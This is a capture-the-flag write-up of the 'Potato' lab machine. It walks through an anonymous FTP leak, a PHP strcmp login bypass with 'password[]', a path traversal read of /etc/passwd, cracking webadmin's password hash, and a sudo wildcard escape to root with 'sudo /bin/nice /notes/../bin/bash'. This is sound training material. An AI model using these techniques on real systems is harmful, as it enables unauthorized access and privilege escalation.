# PG Play
------------------------------------
### IP: 192.168.186.101
### Name: Potato
### Difficulty: Easy
### Community Rating: Intermediate
--------------------------------------------------

Nmap:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 192.168.186.101
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-26 07:28 CDT
Nmap scan report for 192.168.186.101
Host is up (0.082s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.10 seconds
```

Looking at the page on port 80 we see a site seemingly under construction with an image of a potato:



I also notice FTP running on 2112 has anonymous access enabled and I can see there are a few file in there.

Lets kick off some directory fuzzing while we check out FTP:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ feroxbuster --url http://192.168.186.101 -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php html zip txt -o 80_dirs.txt
```

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ftp 192.168.186.101 2112
Connected to 192.168.186.101.
220 ProFTPD Server (Debian) [::ffff:192.168.186.101]
Name (192.168.186.101:ryan): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.174 !
230-
230-The local time is: Fri Jul 26 12:32:45 2024
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49064|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||15673|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901      837.18 KiB/s 
226 Transfer complete
901 bytes received in 00:00 (11.59 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||62215|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54      165.31 KiB/s 
226 Transfer complete
54 bytes received in 00:00 (0.76 KiB/s)
```

Looking at welcome.msg:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ cat welcome.msg 
Welcome, archive user %U@%R !

The local time is: %T
```

Opening index.php.bak we find credentials to the `/dashboard.php` endpoint:



However navigating to http://192.168.186.101/dashboard.php we get a 404 error. 

Turning back to our directory fuzzing we find an `/admin` page.



Navigating here we do find a login panel:



But our discovered credentials don't work here:



### Exploitation/ Foothold

Going back and looking at the index.php.bak file more closely, we can see that the login panel is using `strcmp` for the POST request.



There is a nice writeup of this type of bypass at https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/

Essentially if we pass in `password[]=whatever` the brackets will create an empty array, setting `password` to 0 and PHP will (for some reason?) render `NULL == 0` as true. I don't know much about PHP, but I think the fix for this may be using the operator `===` rather than `==`?

Lets capture a login request in Burp:



Nice, that worked, We can now access the dashboard:



Looking at the `logs` page we see we can select which log we'd like to view and it's displayed for us in browser.



Lets capture this in Burp and see if we are able to access anything else using the functionality.

Nice, with a little playing around we were able to access `/etc/passwd`:



And scrolling down in the file we find the password hash for webadmin:

```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/
```

Lets try cracking this with john:



We now have webadmin's credentials: `webadmin:dragon`

And we can use these to SSH in to the target:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ssh webadmin@192.168.186.101                                       
The authenticity of host '192.168.186.101 (192.168.186.101)' can't be established.
ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.186.101' (ED25519) to the list of known hosts.
webadmin@192.168.186.101's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
```

We can now access the local.txt flag:



### Privilege Escalation

Running `sudo -l` to see what our user can run with elevated permissions we find:

```
webadmin@serv:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

Interesting. The wildcard is very dangerous here. Lets get a root shell by running:

```
webadmin@serv:/$ sudo /bin/nice /notes/../bin/bash
root@serv:/# whoami
root
root@serv:/# id
uid=0(root) gid=0(root) groups=0(root)
```

We can now grab the final flag:



Thanks for following along!

-Ryan

------------------------------------------


